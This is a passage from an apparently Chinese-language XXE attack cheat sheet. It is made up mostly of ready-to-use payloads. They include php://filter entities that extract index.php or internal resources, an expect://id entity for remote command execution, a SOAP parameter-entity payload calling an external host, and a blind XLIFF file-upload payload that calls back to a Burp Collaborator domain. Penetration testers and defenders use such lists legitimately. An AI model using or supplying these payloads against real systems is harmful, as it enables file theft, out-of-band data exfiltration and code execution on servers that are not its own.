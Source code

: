 ### [PHP Wrappers](#toc_php-wrappers)

#### [Base64](#toc_base64_1)

##### [提取 index.php：](#toc_indexphp)

```bash
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### [提取外部资源：](#toc__4)

```bash
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">]>
```

#### [远程代码执行](#toc__5)

如果 PHP 的 expect 模块被加载了

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### [SOAP - XEE](#toc_soap-xee)

```bash
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### [XLIFF - XXE](#toc_xliff-xxe)

XLIFF（XML Localization Interchange File Format，XML 本地化交换文件格式）是一种基于 XML 的位文本格式，用于标准化本地化过程中可本地化数据在工具之间传递的方式，也是 CAT 工具交换的通用格式。

#### [Blind request](#toc_blind-request)

```bash
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```
